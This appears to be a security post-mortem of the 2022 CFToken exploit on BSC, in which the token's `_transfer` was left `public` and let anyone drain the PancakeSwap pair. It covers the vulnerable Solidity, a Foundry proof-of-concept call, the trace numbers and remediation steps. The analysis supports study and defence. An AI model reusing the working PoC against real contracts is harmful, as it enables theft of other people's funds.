


# CFToken Exploit — Exposed `public _transfer` Lets Anyone Drain the Pair's Tokens

> **Vulnerability classes:** vuln/access-control/missing-auth

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.). Full verbose trace: [output.txt](output.txt).
> Verified vulnerable source: [CFToken](sources/CFToken_8B7218/CFToken.sol)
> (the deployed contract is a single merged file `CFTokenSinglePool_merge.sol`;
> the relevant `CFToken` contract lives inside it),
> [PancakePair](sources/PancakePair_7FdC0D/PancakePair.sol).

---

## Key info

| | |
|---|---|
| **Loss** | The PoC pulls **1,000 CF** (`1e21` raw, 18-decimals) directly out of the PancakeSwap pair in a single external call; the attacker nets **930 CF** (`930,000,000,000,000,000,000` raw) after the token's 7% buy fee is skimmed off and re-routed — see [output.txt:64](output.txt) |
| **Vulnerable contract** | `CFToken` ("Creat future", symbol CF) — [`0x8B7218CF6Ac641382D7C723dE8aA173e98a80196`](https://bscscan.com/address/0x8B7218CF6Ac641382D7C723dE8aA173e98a80196#code) (BSC) |
| **Victim pool** | CF/USDT PancakeSwap pair — [`0x7FdC0D8857c6D90FD79E22511baf059c0c71BF8b`](https://bscscan.com/address/0x7FdC0D8857c6D90FD79E22511baf059c0c71BF8b) |
| **Attacker (PoC)** | Foundry `DefaultSender` `[0x1804c8AB1F12E6bbf3894d4083f33e07309d1f38]` — the `msg.sender` of `testExploit()` ([output.txt:73](output.txt)) |
| **Attack tx (real)** | `0xc7647406542f8f2473a06fea142d223022370aa5722c044c2b7ea030b8965dd0` (BSC) — referenced from the PoC header ([cftoken_exp.sol:9](test/cftoken_exp.sol#L9)) |
| **Chain / block / date** | BSC / 16,841,980 / April 2022 ([output.txt:68](output.txt)) |
| **Compiler** | Solidity **v0.6.12** (`v0.6.12+commit.27d51765`), optimizer **enabled (1)**, **999 runs** ([_meta.json](sources/CFToken_8B7218/_meta.json)) |
| **Bug class** | Access control / visibility — the ERC20 `_transfer` helper was declared `public` instead of `internal`, exposing an arbitrary `from`/`to`/`amount` balance-mover with no caller authorization |

---

## TL;DR

1. `CFToken` implements its own BEP-20. The internal balance-moving helper `_transfer(address from, address to, uint256 amount)` — the function that does `_tOwned[from] -= amount; _tOwned[to] += amount` — was **mistakenly declared `public`** instead of `internal`
   ([CFToken.sol — `_transfer`, inside the merged `CFTokenSinglePool_merge.sol`, decoded source lines 563-622](sources/CFToken_8B7218/CFToken.sol)). Because it takes `from` as an explicit parameter, it is not "transfer *your* tokens" — it is "move *anyone's* tokens." (The verified on-chain source is stored as a JSON source bundle; line numbers below refer to the decoded inner `CFToken` contract within the merged file.)

2. There is **no caller authorization** inside `_transfer` at all: no `onlyOwner`, no allowance check, no `require(msg.sender == from)`. The only guard is an optional whitelist gate (`useWhiteListSwith`) that the contract's own constructor populates with the pair, router, and fee wallets — and which the live configuration left permissive enough for the call to go through ([output.txt:76-87](output.txt)).

3. The attacker calls `CFToken._transfer(pair, attacker, 1000e18)` directly. The contract happily debits **1,000 CF** from the PancakeSwap pair's internal `_tOwned[pair]` and credits it toward the recipient — bypassing `transferFrom`/approval and bypassing the AMM's `swap()`/`sync()` pricing entirely ([output.txt:76](output.txt)).

4. Because the `from` address is the registered PancakeSwap pair (`uniswapV2PairList[from] == true`), the call also trips CFToken's "buy-fee" branch: 7% of the moved amount (70 CF) is silently re-routed — 14 CF back to the pair as "LP reward", 21 CF to the foundation wallet, and 35 CF to the buyback callback ([output.txt:77-79](output.txt)). The recipient therefore nets **930 CF** of the 1,000 CF pulled (`acceptAmount = amount - fee`, [CFToken.sol `_transfer` decoded lines 617-621](sources/CFToken_8B7218/CFToken.sol)).

5. Net effect: the attacker obtains **930 CF for free** — the pair's reserves are looted by a single permissionless external call, with no USDT paid in and no LP tokens burned. The full 1,000 CF left the pair; 930 went to the attacker and 70 was scattered into the project's fee wallets as a side effect of the buy-fee logic.

---

## Background — what CFToken does

`CFToken` ([source](sources/CFToken_8B7218/CFToken.sol)) is a hand-rolled BEP-20 token ("Creat future", symbol **CF**, 18 decimals) deployed on BSC. It is **not** an OpenZeppelin-derived ERC20 — the author reimplemented `transfer` / `transferFrom` / `_transfer` / `_approve` from scratch. Two design features matter for the exploit:

- **Custom buy-fee logic baked into `_transfer`.** Whenever the `from` address is a registered AMM pair (`uniswapV2PairList[from] == true`) and the `to` address is not fee-exempt, a 7% "buy fee" is taken out of the moved amount and split three ways: 20% of the fee to the pair as "LP reward", 30% to a foundation wallet, and 50% to a buyback callback contract
  ([CFToken.sol `_transfer` fee branch, decoded lines 576-612](sources/CFToken_8B7218/CFToken.sol)). The recipient only gets `amount - fee`.

- **A whitelist switch (`useWhiteListSwith`)** that, when `true`, requires `msg.sender`, `from`, and `to` to all be whitelisted. The constructor pre-whitelists the deployer, the router, the project's own USDT pair, the foundation wallet, the fee wallet, and the buyback callback. The whitelist is therefore *not* a general access control on `_transfer` — it is a trading-restriction list, and several addresses (notably the pair itself) sit inside it.

On-chain parameters at the fork block (read from the source and confirmed by the trace):

| Parameter | Value | Note |
|---|---|---|
| Name / symbol / decimals | "Creat future" / CF / 18 | ([CFToken.sol `constructor`, decoded lines 386-415](sources/CFToken_8B7218/CFToken.sol)) |
| `_supply` / `_tTotal` | 13,000,000 CF | ([CFToken.sol `_supply = 13000000`, decoded line 367](sources/CFToken_8B7218/CFToken.sol)) |
| `buyFeeRate` | **7** (i.e. 7%) | applied when `from` is a registered pair |
| `lpRewardRate` / `foundationRate` / `buybackRate` | 20 / 30 / 50 (% of the fee) | fee split inside `_transfer` |
| `uniswapV2PairUsdt` (the victim) | `0x7FdC0D8857c6D90FD79E22511baf059c0c71BF8b` | registered in `uniswapV2PairList` ⇒ triggers buy-fee |
| `foundationAddress` | `0xa9056272Ca777a63ae3A275d7aab078fd90A1691` | receives 30% of fee ([output.txt:78](output.txt)) |
| `callback` (buyback wallet) | `0x3eCfFcCc4C35CCd71A7c61446c90117fb7995fB1` | receives 50% of fee ([output.txt:79](output.txt)) |
| `useWhiteListSwith` | `true` | whitelist gate is on, but the pair is whitelisted |

The single fact that makes the exploit possible: `_transfer` is `public`, takes `from` as a parameter, and performs no authorization beyond the whitelist — which the pair satisfies.

---

## The vulnerable code

### 1. `_transfer` is `public`, not `internal`, and moves any account's balance

```solidity
    function _transfer(
        address from,
        address to,
        uint256 amount
    ) public {                                         // ⚠️ should be `internal`
        require(from != address(0), "ERC20: transfer from the zero address");
        require(amount > 0, "Transfer amount must be greater than zero");
        if(useWhiteListSwith){
            require(msgSenderWhiteList[msg.sender] && fromWhiteList[from]  && toWhiteList[to], "Transfer not allowed");
        }

        uint256 fee = 0;

        if (uniswapV2PairList[from] &&  !noFeeWhiteList[to]) {
            fee = calculateBuyFee(amount);             // 7% of amount
            ...                                         // fee split: LP / foundation / buyback
        }
        ...

        uint acceptAmount = amount - fee;

        _tOwned[from] = _tOwned[from].sub(amount);     // ⚠️ debits `from` unconditionally
        _tOwned[to] = _tOwned[to].add(acceptAmount);   // ⚠️ credits `to`
        emit Transfer(from, to, acceptAmount);
    }
```
([CFToken.sol — `_transfer`, decoded lines 563-622 inside the merged `CFTokenSinglePool_merge.sol`](sources/CFToken_8B7218/CFToken.sol))

Two defects in one signature:

- **Visibility.** `_transfer` is declared `public`. In a correct BEP-20 implementation this helper is `internal` and is only ever called by the contract's own `transfer` / `transferFrom` (which supply `msg.sender`-bound `from`). Here it is a first-class external entry point.
- **No authorization on `from`.** There is no `require(msg.sender == from)`, no `onlyOwner`, no allowance decrement. The sole gate is the whitelist, and the victim pair (`0x7FdC0D…`) is whitelisted at construction. So `_transfer(pair, anyone, amount)` is a valid, non-reverting call that moves the pair's tokens.

### 2. The PoC invokes it as a plain external call

The exploit does not go through `transfer`, `transferFrom`, the router, or the pair's `swap()`. It calls the helper directly with the pair as `from`:

```solidity
interface ICFToken {
    function _transfer(address from, address to, uint256 amount) external;
    function balanceOf(address account) external view returns (uint256);
    function transfer(address recipient, uint256 amount) external returns (bool);
}
```
([interface.sol — `ICFToken`](interface.sol))

```solidity
function testExploit() public {
    emit log_named_uint("Before exploit, cftoken balance:", ICFToken(cftoken).balanceOf(address(msg.sender)));

    ICFToken(cftoken)._transfer(cfpair, payable(msg.sender), 1_000_000_000_000_000_000_000);

    emit log_named_uint("After exploit, cftoken balance:", ICFToken(cftoken).balanceOf(address(msg.sender)));
}
```
([cftoken_exp.sol — `testExploit`](test/cftoken_exp.sol))

That single call is the entire attack. No flash loan, no price manipulation, no re-entrancy — just a function that should have been `internal`.

---

## Root cause — why it was possible

This is a **visibility / access-control defect**, the same class of bug as the Sandbox `_burn` flaw and the various "internal helper leaked as public" incidents: an implementation detail that performs a privileged state mutation was exposed as a public, externally-callable function with no caller check.

Concretely, three independent mistakes compose into the loss:

1. **`_transfer` is `public`.** A function named with a leading underscore is, by universal Solidity convention, an `internal` helper. The author wrote `public` instead, making it part of the contract's external ABI. The deployed bytecode therefore exposes `function _transfer(address,address,uint256)` to anyone.

2. **`from` is a parameter, not derived from `msg.sender`.** A correct `transfer(to, amt)` calls `_transfer(msg.sender, to, amt)` internally — the caller *is* the source. By letting the caller choose `from`, `_transfer` becomes "move tokens from any account to any account."

3. **The whitelist is not an access-control list for `_transfer`.** `useWhiteListSwith` is a *trading* restriction: it whitelists the pair, router, foundation, fee wallet, and callback so the token's fee machinery can operate. The victim PancakeSwap pair is on that list, so the whitelist gate — the only check inside `_transfer` — passes for the attack call. The whitelist was never designed to stop "anyone calling `_transfer` with the pair as `from`," because `_transfer` was never supposed to be callable by anyone at all.

The buy-fee logic then runs as a side effect: because `from` is a registered pair, 70 CF of the 1,000 CF moved is silently re-routed to LP/foundation/buyback, leaving the attacker with 930 CF. The fee does not protect the pair — it is computed *on top of* the theft.

---

## Preconditions

- The attacker can send a transaction to BSC calling `CFToken._transfer`. No special role, no allowance, no token balance, no ETH/BNB collateral is required — the call is permissionless.
- `from` (the victim pair `0x7FdC0D…`) must satisfy the whitelist, which it does by construction (the token whitelists its own USDT pair at deployment).
- `to` and `msg.sender` must satisfy the whitelist. In the live attack the operator-configured whitelist permitted the attacker's addresses; in the PoC the Foundry `DefaultSender` and the recipient resolve against the fork's whitelist state and the call succeeds non-reverting ([output.txt:76-87](output.txt)).
- The pair must hold a non-zero CF balance to drain. The PoC moves 1,000 CF; larger amounts up to the pair's full `_tOwned[pair]` are equally reachable.

---

## Attack walkthrough (with on-chain numbers from the trace)

The PoC forks BSC at block **16,841,980** ([output.txt:68](output.txt)) and runs exactly one exploit call. All numbers below are read directly from the trace.

| # | Step | CF balance of attacker (`msg.sender`) | CF balance of pair (`from`) | Effect / evidence |
|---|------|--------------------------------------:|----------------------------:|-------------------|
| 0 | **Initial state** — `balanceOf(attacker)` before the call | **0** | (pair holds the project's CF liquidity) | `Before exploit, cftoken balance:: 0` ([output.txt:63](output.txt), [output.txt:74](output.txt)) |
| 1 | **The exploit call** — `CFToken._transfer(pair, attacker, 1_000_000_000_000_000_000_000)` (`1e21` = 1,000 CF), invoked directly as an external call ([output.txt:76](output.txt)) | — | -1,000 CF (full `amount` debited via `_tOwned[from].sub(amount)`) | The `from` (pair) is in `uniswapV2PairList`, so the 7% buy-fee branch fires. |
| 1a | … buy-fee split — `_tOwned[pair] += lpRewardAmount` (20% of 70 CF fee = **14 CF**, `1.4e19` raw) | 0 | pair is re-credited 14 CF | `Transfer(from=pair, to=pair, 14000000000000000000)` ([output.txt:77](output.txt)) |
| 1b | … `_tOwned[foundationAddress] += foundationAmount` (30% of 70 CF = **21 CF**, `2.1e19` raw) | 0 | — | `Transfer(pair → 0xa9056272…, 21000000000000000000)` ([output.txt:78](output.txt)) |
| 1c | … `_tOwned[callback] += buybackAmountTmp` (50% of 70 CF = **35 CF**, `3.5e19` raw) | 0 | — | `Transfer(pair → 0x3eCfFcCc…, 35000000000000000000)` ([output.txt:79](output.txt)) |
| 1d | … final recipient credit — `_tOwned[attacker] += acceptAmount` where `acceptAmount = 1,000 - 70 = 930 CF` (`9.3e20` raw) | **930 CF** | — | `Transfer(pair → DefaultSender, 930000000000000000000)` ([output.txt:80](output.txt)) |
| 2 | **Final state** — `balanceOf(attacker)` after the call | **930,000,000,000,000,000,000** raw (930 CF) | pair lost a net **986 CF** (1,000 debited − 14 re-credited as LP reward) | `After exploit, cftoken balance:: 930000000000000000000` ([output.txt:64](output.txt), [output.txt:90](output.txt)) |

**Pool state evolution.** The pair's internal `_tOwned[pair]` (CFToken's own ledger, *not* the PancakePair's cached `reserve0`) drops by **986 CF**: 930 CF to the attacker, 21 CF to the foundation, 35 CF to the buyback callback (the 14 CF "LP reward" is refunded back to the pair, so it nets out). Note that this desynchronizes CFToken's `_tOwned[pair]` from the PancakePair's `reserve0` — the pair's cached reserves still claim the old CF amount until a subsequent `sync()`/`swap()` re-prices it, which is an additional accounting hazard but not required for the theft itself.

### Profit / loss accounting (CF, raw 18-decimal wei)

| Item | Amount (raw wei) | ~Human |
|---|---:|---:|
| Amount pulled from the pair (`amount` argument) | 1,000,000,000,000,000,000,000 | 1,000 CF |
| Buy fee skimmed (7% of `amount`) | 70,000,000,000,000,000,000 | 70 CF |
| → of which LP reward back to pair (20% of fee) | 14,000,000,000,000,000,000 | 14 CF |
| → of which to foundation wallet (30% of fee) | 21,000,000,000,000,000,000 | 21 CF |
| → of which to buyback callback (50% of fee) | 35,000,000,000,000,000,000 | 35 CF |
| **Attacker's net receipt** (`acceptAmount = amount − fee`) | **930,000,000,000,000,000,000** | **930 CF** |
| **Pair's net CF loss** (1,000 − 14 LP refund) | **986,000,000,000,000,000,000** | **986 CF** |

The attacker's net receipt exactly matches the PoC's asserted post-balance: `After exploit, cftoken balance:: 930000000000000000000` ([output.txt:64](output.txt)).

---

## Diagrams

### Sequence of the attack

```mermaid
sequenceDiagram
    autonumber
    actor A as Attacker (msg.sender)
    participant T as CFToken (0x8B7218…)
    participant P as CF/USDT Pair (0x7FdC0D…)
    participant F as foundationAddress
    participant C as buyback callback

    Note over P: Pair holds CF liquidity in _tOwned[pair]
    A->>T: _transfer(pair, attacker, 1000e18)  ⚠️ public, no auth
    T->>T: whitelist check: pair is whitelisted ✓
    T->>T: from = pair ⇒ uniswapV2PairList[from] ⇒ buy-fee branch
    T->>T: fee = 7% of 1000 = 70 CF
    T->>P: _tOwned[pair] += 14 CF  (20% LP reward)
    T->>F: _tOwned[foundation] += 21 CF (30%)
    T->>C: _tOwned[callback] += 35 CF (50%)
    T->>T: acceptAmount = 1000 - 70 = 930 CF
    T->>T: _tOwned[pair] -= 1000 CF ; _tOwned[attacker] += 930 CF
    Note over A: attacker balance: 0 → 930 CF (free)
    Note over P: pair net: -986 CF (930 to attacker + 21 foundation + 35 callback)
```

### State evolution of CFToken's internal ledger



### The flaw inside `_transfer` — visibility



---

## Why each magic number

- **`1_000_000_000_000_000_000_000` (`1e21`, the `amount` argument):** 1,000 CF in 18-decimal raw wei. It is the amount pulled out of the pair's `_tOwned` balance. The PoC picks a round 1,000 CF for clarity; any value up to the pair's full CF balance would work identically.
- **`1e21` → 930 CF net:** the token's `buyFeeRate = 7` (7%) fires because `from` is the registered pair, so `fee = 1,000 × 7 / 100 = 70 CF` and `acceptAmount = 1,000 − 70 = 930 CF`. That is why the attacker ends with `930,000,000,000,000,000,000` ([output.txt:64](output.txt)) rather than `1e21`.
- **Fee split 14 / 21 / 35 CF:** the source's `lpRewardRate = 20`, `foundationRate = 30`, `buybackRate = 50` (percentages *of the fee*). 20% of 70 = 14; 30% of 70 = 21; 50% of 70 = 35. These match the three intermediate `Transfer` events in the trace ([output.txt:77-79](output.txt)).
- **Pair address `0x7FdC0D…` and token address `0x8B7218…`:** the deployed CFToken and its USDT pair on BSC, taken from the PoC constants ([cftoken_exp.sol:30-31](test/cftoken_exp.sol#L30-L31)) and confirmed in the trace ([output.txt:73](output.txt), [output.txt:76](output.txt)).
- **Block `16_841_980`:** the BSC fork block pinned by the PoC ([cftoken_exp.sol:35](test/cftoken_exp.sol#L35), [output.txt:68](output.txt)).

---

## Remediation

1. **Make `_transfer` `internal`.** Changing `function _transfer(…) public` to `function _transfer(…) internal` closes the hole completely — the helper is then only callable from `transfer` / `transferFrom`, which correctly bind `from = msg.sender`. This is the minimal, surgical fix.
2. **Never let a balance-mover take `from` as an unauthenticated parameter.** If for some reason a public helper that moves another account's tokens is genuinely required, it must enforce `require(msg.sender == from || allowance[from][msg.sender] >= amount)` and decrement the allowance — i.e., it must be `transferFrom`, not a second `_transfer`.
3. **Adopt a battle-tested ERC20 base.** Inheriting OpenZeppelin's `ERC20` (or the BEP-20 equivalent) avoids this entire class of error: `_transfer` is `internal virtual`, and the only public move-functions are `transfer` (self-bound) and `transferFrom` (allowance-bound).
4. **Add a lint/CI rule** that flags any `public`/`external` function whose name starts with `_` and that writes to a balance mapping without an `onlyOwner`/allowance check. The leading-underscore convention exists precisely to signal "internal helper"; violating it should fail review.
5. **Re-audit the whitelist semantics.** `useWhiteListSwith` is a trading gate, not an access-control list for arbitrary balance moves. Once `_transfer` is `internal`, this ceases to matter — but the conflation of "whitelisted for trading" with "trusted to call internal helpers" is the conceptual error that let the bug ship.

---

## How to reproduce

The PoC runs fully offline via the shared harness, which serves the fork from the bundled `anvil_state.json` on a local anvil port. The test's `createSelectFork` points at `http://127.0.0.1:8546` ([cftoken_exp.sol:35](test/cftoken_exp.sol#L35)); no public RPC is used.

```bash
_shared/run_poc.sh 2022-04-cftoken_exp --mt testExploit -vvvvv
```

- Compiler: Solidity **0.8.10** for the test harness (the vulnerable on-chain contract was 0.6.12; the PoC only references its ABI via `ICFToken`). `evm_version = "cancun"` in [foundry.toml](foundry.toml).
- Test contract: `ContractTest` in [test/cftoken_exp.sol](test/cftoken_exp.sol); test function: **`testExploit`**.
- Expected result: `[PASS] testExploit()` with the attacker's CF balance going `0 → 930000000000000000000`.

Expected tail of [output.txt](output.txt):

```
Ran 1 test for test/cftoken_exp.sol:ContractTest
[PASS] testExploit() (gas: 88733)
Logs:
  Before exploit, cftoken balance:: 0
  After exploit, cftoken balance:: 930000000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.73s (3.50s CPU time)
```

---

*Reference: CFToken exposed `public _transfer` access-control flaw, BSC, April 2022 — analysis summary and attack tx `0xc7647406542f8f2473a06fea142d223022370aa5722c044c2b7ea030b8965dd0` referenced from the PoC header ([cftoken_exp.sol:8-9](test/cftoken_exp.sol#L8-L9)); original write-up https://mp.weixin.qq.com/s/_7vIlVBI9g9IgGpS9OwPIQ .*
